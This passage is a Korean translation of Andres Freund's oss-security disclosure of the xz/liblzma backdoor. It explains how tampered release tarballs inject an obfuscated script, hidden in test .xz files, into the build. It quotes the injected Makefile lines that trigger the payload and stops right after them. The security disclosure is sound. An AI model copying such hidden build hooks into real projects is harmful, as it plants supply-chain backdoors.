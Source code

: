 # Openwall post by Andres Freund

[Original link](https://www.openwall.com/lists/oss-security/2024/03/29/4)

---

### 알림
- 번역에 틀린 표현이 있을 수 있습니다.  
- 번역하기 애매하거나 모호한 내용은 영어 발음을 그대로 빌려 한글로 적었습니다.  
- 의역이 다수 있습니다.
- 개인적인 해석은 괄호와 \*로 표시하였습니다. - (*예시)
- 어색한 해석의 경우 !로 표시하였습니다. - !예시
- 글 중간에 등장하는 '첨부'는 글 최하단에 존재하는 파일을 말합니다.

---

날짜: 2024년 3월 29일 금요일 08:51:26 -0700  
보낸 이: Andres Freund <andres@...razel.de>  
받는 이: oss-security@...ts.openwall.com  
제목: xz/liblzma upstream의 백도어가 ssh 서버를 손상시킵니다.

안녕하세요,

저번 주에 간 데비안 불안정 버전 설치 중 liblzma(xz 패키지의 일부)에 몇가지 이상한 현상(ssh로 로그인하는 데에 많은 CPU를 소모, valgrind 에러)이 있었고, 그에 대한 답을 알아냈습니다:

xz 레포지토리 upstream와 xz tarballs가 백도어로 쓰였습니다.

처음에 저는 데비안 패키지의 손상이라 생각했으나, upstream의 문제로 밝혀졌습니다.

---

### == 손상된 릴리즈 타르볼 ==

백도어의 한 부분은 *배포된 tarballs에만 있습니다*.  
참고로 여기 데비안의 tarball을 임포트한 링크가 있는데, 이는 5.6.0과 5.6.1 tarballs에도 존재합니다.

- https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63

해당 라인은 upstream의 `build-to-host` 소스와 xz의 git에도 *없습니다*.  
그러나 "소스 코드" 링크들을 제외하고, github가 레포지토리 컨텐츠로부터 직접 생성한 것으로 보이는 릴리즈된 upstream의 타르볼에는 존재하였습니다.

- https://github.com/tukaani-project/xz/releases/tag/v5.6.0
- https://github.com/tukaani-project/xz/releases/tag/v5.6.1

이것은 구성의 말미에 실행될 난독화된 스크립트를 주입합니다.  
이 스크립트는 레포지토리의 `test`에 있는 .xz파일들이고, 난독화 되어있습니다.

이 스크립트는 실행되고나서, 몇 가지 선제조건과 일치하면 하단의 코드

```bash
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```
